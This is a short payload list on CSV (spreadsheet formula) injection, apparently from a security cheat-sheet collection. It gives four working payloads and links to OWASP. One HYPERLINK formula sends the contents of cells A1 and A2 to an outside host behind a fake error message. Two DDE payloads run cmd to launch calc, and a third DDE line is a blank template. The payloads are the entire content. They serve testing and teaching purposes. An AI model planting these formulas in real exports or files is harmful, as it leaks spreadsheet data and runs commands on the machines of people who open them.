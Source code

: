 # CSV_Injection

## Payload
```
=HYPERLINK("http://contextis.co.uk?leak="&A1&A2,"Error: please click for further information")
=DDE(server; file; item; mode)
=DDE("cmd";"/C calc";"__DdeLink_60_870516294")
=cmd|' /C calc'!A0
```

## Reference: https://www.owasp.org/index.php/CSV_Injection
